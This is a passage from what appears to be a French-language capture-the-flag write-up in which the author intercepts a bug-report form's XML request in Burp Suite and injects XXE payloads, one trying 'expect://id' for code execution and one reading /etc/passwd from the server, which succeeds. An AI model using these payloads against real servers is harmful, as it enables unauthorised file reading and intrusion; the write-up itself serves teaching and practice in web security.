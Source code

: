 Nous pouvons voir que notre payload dans le champ `data` du body de la requête est encodé.<br>
En le surlignant avec notre curseur, `Burp Suite` va essayer de le décoder sur le panneau de droite.<br><br>
Une fois décodé, nous pouvons voir le payload exacte qui sera interprétée par le parser XML sur le serveur:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<bugreport>
		<title>t</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

À partir de là, j'ai décidé de manipuler la payload afin d'y faire une injection XXE avant de l'envoyer au serveur.<br>

La première chose que j'ai essayée a été de vérifier si le module **PHP** `expect` était activé, si tel était le cas, <br>
un attaquant pourrait facilement faire un exécution de code distant (RCE) sur le serveur Web.<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

Mais il semblait que le module n'était pas activé, c'est une bonne chose pour le serveur Web en fait.<br>
Après ça, j'ai décidé de tester avec le module `file`, si nous pouvions exfiltrer certaines données du serveur avec le payload suivant :<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [
   <!ENTITY xxe SYSTEM "file://etc/passwd" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

Et comme vous pouvez le voir dans la capture d'écran ci-dessous, nous avons réussi à exfiltrer le fichier `/etc/passwd` du serveur,<br>
nous donnant un nom d'utilisateur possible à utiliser pour se connecter via le serveur SSH. <br><br>
